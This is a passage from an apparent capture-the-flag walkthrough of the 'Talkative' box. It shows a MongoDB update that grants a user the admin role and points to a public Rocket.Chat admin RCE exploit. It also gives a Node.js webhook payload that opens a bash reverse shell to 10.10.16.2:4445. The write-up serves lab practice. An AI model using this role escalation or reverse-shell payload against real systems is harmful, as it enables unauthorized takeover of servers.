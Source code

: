 Now, we can either crack the password for Saul, who is an administrator, or, just change the user we had registered in the beginning to admin. We can do that by updating the database. 

```bash
db.users.update({"_id" : "eHia6bcMcaeJvHCax"}, { $set: {"roles" : ["admin"]}})

DeprecationWarning: Collection.update() is deprecated. Use updateOne, updateMany, or bulkWrite.
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}

```

Now if we check again:

```bash
db.users.find();

<SNIP>
    },
    emails: [ { address: 'bob@talkative.htb', verified: false } ],
    type: 'user',
    status: 'away',
    active: true,
    _updatedAt: ISODate("2025-10-11T23:09:27.185Z"),
    roles: [ 'admin' ],
    name: 'bob',
    lastLogin: ISODate("2025-10-11T23:03:31.435Z"),
    statusConnection: 'away',
    utcOffset: -4,
    username: 'bob'
  }

```

Now let’s return to rocket chat.

Searching up rocketchat authenticated administrator rce, we find this github page:

http://github.com/CsEnox/CVE-2021-22911

![image.png]({{ site.baseurl }}/assets/talkative/image%2030.png)

![image.png]({{ site.baseurl }}/assets/talkative/image%2031.png)

```bash
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.16.2/4445 0>&1'");
```

Let’s turn the following options on, choose outgoing webhook
